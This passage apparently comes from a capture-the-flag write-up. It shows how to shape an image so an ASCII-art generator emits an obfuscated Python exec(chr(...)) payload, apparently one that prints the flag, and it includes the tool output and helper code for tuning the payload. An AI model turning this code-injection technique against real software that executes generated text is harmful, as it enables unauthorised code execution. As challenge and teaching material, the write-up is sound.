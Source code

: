 And feed the resulting `payload.png` to **asciinator**:

```bash
$ python3 asciinator.py payload.png 
exec(chr(1110 + 1 + 1) + -r- + chhr(100 + 1 + 1 + 1 + 11 + 1) + chr(110) + chhr(110 + 1 + 1 + 1 + 11 + 1 + 1) + -(- + chhr(100 + 1 + 1) + chr((110   1   1) + chr(1000   1   1   1) + chr((1 + 100 + 1 + 1 + 1 %% 1) + -)-)
```

Like we thought, all the characters are rightly printed, but some of them are duplicated, but the output is pretty much what we want. We can notice another small problem though: `"` is replaced by `-` and `-` is replaced by **a space**. These replacements are consistent along the whole string, and for both replacements, **the character is replaced by the one directly before in our charset**. This hints at a rounding error, which we can probably fix by simply **replacing those characters by the one that follows them in our charset**.

We add the following lines after the declaration of `payload`:

```python
# Replacing characters that are badly rounded in the output
payload = payload.replace('"', '~')
payload = payload.replace('-', '"')
```
And we get the following output from the newly generated image:
```
$ python3 asciinator.py payload.pn
exec(chr(1110 + 1 + 1) + "r" + chhr(100 + 1 + 1 + 1 + 11 + 1) + chr(110) + chhr(110 + 1 + 1 + 1 + 11 + 1 + 1) + "(" + chhr(100 + 1 + 1) + chr((110 - 1 - 1) + chr(1000 - 1 - 1 - 1) + chr((1 + 100 + 1 + 1 + 1 %% 1) + ")")
```

### Chasing the proper payload

That's a bit better. Now, we want to deal with the duplicated characters. First, in order to make sure that the resizing always occurs in the same way, we're going to make our string much longer by padding it with lots of spaces, which will ensure it has the same length for each of our tries.

Then, we're going to **compare the output of the ASCII art generator code with our payload**, considering only the units that are not spaces (*we consider that a unit here is one of the non-empty elements from* `payload.split(' ')`). If we notice that such a **unit** is different from what it should be, we will **add spaces in front of it until the duplication occurs on one of these spaces**.

The following (**commented**) code does just that:

```python
import numpy as np
from PIL import Image

# Checks whether the payload is the same as its model, ignoring spaces
def check_payload_from_model(split_model, split_payload):

    model_count = 0
    payload_count = 0

    while payload_count < len(split_payload):
        if split_payload[payload_count] == '':
            payload_count += 1
            continue

        if split_model[model_count] == '':
            model_count += 1
            continue

        if split_model[model_count] != split_payload[payload_count]:
            return model_count

        model_count += 1
        payload_count += 1
```